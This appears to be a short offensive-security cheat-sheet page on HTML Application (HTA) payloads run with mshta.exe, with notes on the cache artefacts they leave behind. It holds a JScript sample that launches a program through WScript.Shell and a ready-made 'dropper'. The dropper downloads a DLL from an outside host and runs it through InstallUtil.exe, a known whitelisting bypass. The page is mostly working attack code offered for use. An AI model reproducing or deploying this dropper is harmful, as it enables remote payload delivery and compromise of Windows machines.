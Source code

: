 # HTA

## HTA

### About

HTA = html Application

{% hint style="warning" %}
32 bits payload
{% endhint %}

### HTA reminders

* use mshta.exe for execution
* Accept additionnal languages \(ie JScript, VBScript\)
* Once executed, HTA are cached on the disk. Artefact are left on %localappdata%\Microsoft\Windows\INetCache\IE
* Can be mixed with clickonce apps :\)

### Basic sample

```csharp
<script language="JScript">
    var run = new ActiveXObject('WSCRIPT.Shell').Run("C:\\Windows\\system32\\notepad.exe");
</script>
```

### Dropper

#### Download base64 dll and execute it using installutils

```csharp
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("powershell (new-object net.webclient).downloadfile('http://192.168.1.10/stcreat.txt','C:\\Windows\\Tasks\\stcreat.dll') ; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /url C:\\Windows\\Tasks\\stcreat.dll");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>


```

